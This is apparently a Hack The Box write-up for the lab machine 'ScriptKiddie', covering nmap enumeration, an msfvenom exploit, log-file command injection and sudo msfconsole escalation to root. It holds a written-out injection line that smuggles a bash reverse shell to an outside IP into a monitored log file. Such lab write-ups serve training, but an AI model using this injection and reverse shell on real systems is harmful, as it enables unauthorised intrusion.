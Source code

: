 ```yaml
---
title: "[HTB] Machine: ScriptKiddie"
description: "[HTB] Machine: ScriptKiddie"
date: 2023-07-09
menu:
  sidebar:
    name: "[HTB] Machine: ScriptKiddie"
    identifier: htb-machine-scriptkiddie
    parent: htb-machines-linux
    weight: 10
hero: images/scriptkiddie.png
tags: ["HTB", "msfvenom", "command-injection", "irb", "msfconsole"]
---
```


# ScriptKiddie
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.226  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 19:55 BST
Nmap scan report for 10.10.10.226 (10.10.10.226)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.63 seconds

```
- Web server

![](./images/1.png)

## Foothold
- I tried different payloads for command injection, but none of them worked
  - So I checked if there are any exploit for any of the services running

![](./images/2.png)

- But we don't have a version of the `mfsvenom`
  - So let's try the exploit anyway
  - We can generate payload using `msfconsole` or python script
  - I chose `msfconsole` since it was easier to do

![](./images/3.png)
![](./images/4.png)

- Generate payload
  - Upload it and launch it

![](./images/5.png)
![](./images/6.png)
![](./images/7.png)

## User
- We can read `pwn`'s directory
  - Upon scanning we see `scanlosers.sh` script, which looks like automated job since it saves output to `recon` folder
  - We can edit the script
  - But we need to find the format of the lines in the input file `/home/kid/logs/hackers`

![](./images/8.png)

- If we grep for `hackers` in `kid`'s home directory we find the source code for the `app` and the lines of code responsible for saving the logs

![](./images/9.png)
![](./images/10.png)

- Looks like the format is `[2023-07-10 21:18:21.342176] 10.10.16.12`
  - But the file is empty, which means it get cleaned since I definitely tried command injections

![](./images/11.png)

- Let's try injecting the commands to the log file
  - The script cuts out the 3 column and supplies it to `nmap`, so we add 'a a 127.0.0.1' to pass the check
  - Then we have our command and comment out the rest of the command with `#`

![](./images/12.png)

- Let's get reverse shell
  - `echo "a a 127.0.0.1;bash -c 'bash -i >& /dev/tcp/10.10.16.12/7777 0>&1' #" > hackers`

![](./images/13.png)

## Root
- `pwn` has `sudo` rights

![](./images/14.png)

- Follow [GTFOBins](https://gtfobins.github.io/gtfobins/msfconsole/) to get a `root`

![](./images/15.png)
![](./images/16.png)
